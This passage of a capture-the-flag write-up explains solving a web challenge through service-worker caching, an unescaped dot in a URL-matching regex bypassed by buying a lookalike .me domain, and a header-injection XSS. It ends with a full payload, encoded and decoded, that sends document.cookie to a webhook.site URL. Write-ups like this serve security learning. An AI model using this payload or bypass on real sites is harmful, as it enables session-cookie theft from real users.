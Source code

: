 ```js
      return fallbackResponse;
    }
    return new Response('Network error happened', {
      status: 408,
      headers: { 'Content-Type': 'text/plain' },
    });
  }
};
```

The service worker puts all the resources in the cache and if the request is in the cache, the response will also be taken from the cache itself. So we can send the payload request a few times to the admin for it to get cached and then we can send admin to the `/helloworld` endpoint and XSS will trigger.

But we didn't do it this way during the CTF as we had no information that the browser session will persist over different reports. We thought that the browser will be new for each report. So we did it using a bug in the regex.

## The regex way

In the Python code, if you see the regex for the URL we can see that the `.` is not escaped. `.` matches every character in regex so any URL like `https://escapeanzeros.me/` or `https://escapebnzeros.me/` would pass the regex

```py
def use_regex(input_text):
  pattern = re.compile(r"https://escape.nzeros.me/", re.IGNORECASE)
  return pattern.match(input_text)
```

Since there is a GitHub students offer where we can get a `.me` domain for one year for free. We tried to see if any such domain is free. After quite some haggling, we ended up buying `escapebnzero.me` only to realise that we missed an `s` at the end.

![facepalm](https://media.giphy.com/media/WrNfErHio7ZAc/giphy.gif)

Repeat the same process again with another one of our teammates and we end up owning `escapebnzeros.me`. Now we can make the admin visit any website we want.

## Getting the flag

Now we have everything we need for the exploit but the exploit itself. So we tried putting up everything together. We wanted to make the response a valid JSON, we can use this payload for that

```
https://escape.nzeros.me/?user=a:%252520b%25250d%25250a%25250d%25250a%7B%22token%22%3A%22%3Cimg%20src%20onerror%3Dfetch%28%27https%3A%2F%2Fwebhook.site%2F91f29570-a3d7-4288-8143-3daea4f6cc53%25253Fflag%3D%27%25252Bbtoa%28document.cookie%29%29%3E%22%2C%22user%22%3A%22aa%22%7D

Triple URL decoded

https://escape.nzeros.me/?user=a: b\r\n
\r\n
{"token":"<img src onerror=fetch('https://webhook.site/91f29570-a3d7-4288-8143-3daea4f6cc53?flag='+btoa(document.cookie))>","user":"aa"}
```
